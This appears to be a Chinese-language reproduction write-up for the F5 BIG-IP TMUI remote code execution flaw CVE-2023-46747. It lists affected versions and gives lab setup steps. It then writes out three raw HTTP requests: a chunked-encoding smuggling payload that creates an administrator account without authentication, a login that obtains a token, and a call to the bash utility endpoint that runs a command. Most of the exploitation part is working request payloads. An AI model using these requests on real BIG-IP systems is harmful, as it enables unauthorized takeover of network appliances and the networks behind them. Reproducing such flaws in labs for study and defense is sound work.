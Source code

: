 ## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面



## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=adminqq&name_before=&passwd=admin789456 参数填入创建账户

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=adminqq&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```

![](./assets/20231031212344495.png)



### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```

![](./assets/20231031212450387.png)



### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```

![](./assets/20231031212657529.png)



### 参考链接

```
https://mp.weixin.qq.com/s/iN7rlJJaI4sl-fiL0eMXsQ
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```

